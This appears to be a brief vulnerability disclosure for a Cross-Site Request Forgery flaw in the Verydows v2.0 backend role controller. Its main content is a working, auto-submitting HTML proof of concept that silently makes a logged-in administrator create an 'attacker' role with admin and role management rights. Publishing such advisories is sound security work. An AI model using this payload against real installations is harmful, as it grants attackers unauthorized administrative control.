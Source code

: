 target:https://gitee.com/cigery/verydows

version:v2.0

Verydows v2.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /protected/controller/backend/role_controller


![](image/Added CSRF in Role Controller/image-20231220213209690.png)

create poc

![](image/Added CSRF in Role Controller/Snipaste_2023-12-20_21-33-54.png)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://localhost/index.php?m=backend&c=role&a=add&step=submit" method="POST">
      <input type="hidden" name="role&#95;name" value="attacker" />
      <input type="hidden" name="role&#95;desc" value="" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="admin&#64;index" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="admin&#64;add" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="admin&#64;edit" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="admin&#64;delete" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="role&#64;index" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="role&#64;add" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="role&#64;edit" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="role&#64;delete" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

successed

![](image/Added CSRF in Role Controller/image-20231220213602214.png)

![](image/Added CSRF in Role Controller/image-20231220213621857.png)

